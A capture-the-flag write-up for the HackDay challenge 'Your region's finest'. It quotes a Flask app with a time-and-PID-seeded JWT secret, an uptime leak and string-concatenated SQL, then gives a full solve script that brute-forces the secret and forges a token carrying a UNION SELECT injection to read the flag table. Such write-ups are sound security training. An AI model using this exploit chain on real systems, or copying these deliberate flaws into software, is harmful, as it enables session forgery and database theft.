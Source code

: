# Your region's finest

> You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"
>
> Attachment : [app.py](app.py) , sha256 : 415a046c5c03ac1ff0646cae082503af9d6bf52b7ff6db00ff0009ab7f0b0ba
>
> `challenges.hackday.fr:58990`

The first step is to explore app.py to find a way to get the flag. We see that the flag can be found in the Flag table as a single entry.

```python
class Flag(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    flag = db.Column(db.String(100), nullable=False)
...
def create_data():
    # clear all Product db
    db.session.query(Product).delete()
    
    product1 = Product(name=f'Space Cookie', description='Cookies so delicate, they might just break! No need for brute force, one bite and they’ll melt right into your hands.', price=random.randrange(10, 100))
    product2 = Product(name='Syringe', description='To, hum, inject yourself with medicine I guess ?', price=random.randrange(10, 100))
    product3 = Product(name='Cool looking leaf', description='To add a nice scent to your house :)', price=random.randrange(10, 100))
    with open("flag.txt","r") as f:
        flag = Flag(flag=f.read().strip())
    db.session.add(product1)
    db.session.add(product2)
    db.session.add(product3)
    db.session.add(flag)
    db.session.commit()
```

So to get the flag we need to find a way to get access to that entry. Upon further investigation, we see, that we can see our favorite product in `/favorite_product_info` route. Additionally, we see that query directly takes product id from user's jwt for receiving favorite product. This gives us an opportunity for SQL injection.

```python
@app.route('/favorite_product_info')
@jwt_required()
def favorite_product_info():
    claims = get_jwt()
    favorite_product_id = claims.get('favorite_product')
    if favorite_product_id:
        favorite_product = Product.query.get(favorite_product_id)
        try:
            favorite_product = db.session.execute(text("SELECT * FROM product WHERE id = " + str(favorite_product_id))).fetchone()
        except Exception as e:
            return render_template('favorite_product_info.html', product=None, error=e)
        return render_template('favorite_product_info.html', product=favorite_product)

    return render_template('favorite_product_info.html', product=None)
```

Now we should check JWT logic. At the start of the app.py we see the hint that JWT_SECRET_KEY is not safe. It is actually not safe, because application uses pseudo-random with determined seed for generating secret key.

```python
# I saw in the official _randommodule.c in which both time and pid are used to seed the random generator
# So that must be a good idea, right ? :) Just gonna do it simpler here, but should be as safe.

up = math.floor(time.time())
random.seed(up + os.getpid())

app = Flask(__name__)
app.config['SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:////app/data/site.db'
app.config['JWT_SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False 
```

It means that we could bruteforce secret key for JWT. Moreover, we already could calculate the time when server was started due to `/healthz` route.

```python
@app.route("/healthz")
def healthz():
    return jsonify(status="OK", uptime=time.time() - up)
```

So now we know the order of our actions:
1. Register new user.
2. Get user's JWT from cookies.
3. Calculate server's start time.
4. Bruteforce PID and and find secret key for JWT.
5. Forge new JWT with SQL injection for "favorite_product" key.
6. Open `/favorite_product_info` and get the flag.

Here you can see the full [script](solution.py) to solve this task.

```python
import jwt, string, random, requests, logging, math, re, time
from datetime import datetime, timedelta

logging.basicConfig(level=logging.INFO, format="%(asctime)s - %(levelname)s - %(message)s")

BASE_URL = "http://challenges.hackday.fr:58990"
REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"
HEALTHZ_URL = f"{BASE_URL}/healthz"
FAVORITE_PRODUCT_INFO_URL = f"{BASE_URL}/favorite_product_info"

USERNAME = random.choice(string.ascii_letters).lower() + "".join(random.choice(string.ascii_letters + string.digits) for _ in range(7))
PASSWORD = USERNAME


def register_user():
    """Register a new user."""
    logging.info("Registering a new user.")
    response = requests.post(REGISTER_URL, data={"username": USERNAME, "password": PASSWORD})
    if response.status_code == 200:
        logging.info("User registered successfully.")
    else:
        logging.error("Failed to register user.")


def login_user():
    """Login the user and get the JWT from cookies."""
    logging.info("Logging in the user.")
    session = requests.Session()
    response = session.post(LOGIN_URL, data={"username": USERNAME, "password": PASSWORD})
    if response.status_code == 200:
        logging.info("User logged in successfully.")
        jwt_token = session.cookies.get("access_token_cookie")
        return jwt_token
    logging.error("Failed to log in user.")
    return None


def get_server_start_time():
    """Calculate the server's start time using the /healthz endpoint."""
    logging.info("Calculating server start time.")
    response = requests.get(HEALTHZ_URL)
    if response.status_code == 200:
        uptime = response.json().get("uptime")
        start_time = time.time() - uptime
        logging.info(f"Server start time calculated: {start_time}")
        return start_time
    logging.error("Failed to get server start time.")
    return None


def bruteforce_jwt_secret(start_time):
    """Bruteforce the JWT_SECRET_KEY based on the start time and PID."""
    logging.info("Starting bruteforce for JWT secret.")
    TIME_WINDOW_SECONDS = 5
    rounded_start_time = math.floor(start_time)
    possible_times = range(rounded_start_time - TIME_WINDOW_SECONDS, rounded_start_time + TIME_WINDOW_SECONDS + 1)
    for possible_up in possible_times:
        for pid in range(1, 65536):
            random.seed(possible_up + pid)
            _ = "".join(random.choice(string.printable) for _ in range(32))
            candidate_secret = "".join(random.choice(string.printable) for _ in range(32))
            try:
                jwt.decode(jwt_token, candidate_secret, algorithms=["HS256"])
                logging.info(f"JWT secret found: {candidate_secret}")
                return candidate_secret
            except jwt.InvalidTokenError:
                continue
    logging.error("Failed to bruteforce JWT secret.")
    return None


def forge_jwt(jwt_secret):
    """Forge a new JWT with an SQL injection payload."""
    logging.info("Forging a new JWT with SQL injection payload.")
    payload = {
        "sub": USERNAME,
        "favorite_product": "1 UNION SELECT 1, flag, flag, 0.0, 'static/images/default.png', 1 FROM flag LIMIT 1 --"
    }
    forged_token = jwt.encode(payload, jwt_secret, algorithm="HS256")
    logging.info("JWT forged successfully.")
    return forged_token


def get_flag(forged_token):
    """Send the forged JWT to get the flag."""
    logging.info("Sending forged JWT to retrieve the flag.")
    cookies = {"access_token_cookie": forged_token}
    response = requests.get(FAVORITE_PRODUCT_INFO_URL, cookies=cookies)
    if response.status_code == 200:
        logging.info("Successfully retrieved the response.")
        flag = re.search(r'HACKDAY\{.*?\}', response.text)
        if flag:
            logging.info(f"Succesfully retrieved the flag")
            return flag.group()
        logging.error("Flag not found in the response.")
        return response.text
    logging.error("Failed to retrieve the response.")
    return None


if __name__ == "__main__":
    register_user()
    jwt_token = login_user()

    if not jwt_token:
        logging.error("Exiting due to login failure.")
        exit(1)

    start_time = get_server_start_time()
    if not start_time:
        logging.error("Exiting due to failure in calculating server start time.")
        exit(1)

    jwt_secret = bruteforce_jwt_secret(start_time)
    if not jwt_secret:
        logging.error("Exiting due to failure in bruteforcing JWT secret.")
        exit(1)

    forged_token = forge_jwt(jwt_secret)
    flag = get_flag(forged_token)

    if flag:
        logging.info(f"Flag retrieved: {flag}")
    else:
        logging.error("Failed to retrieve the flag.")
```

`HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}`

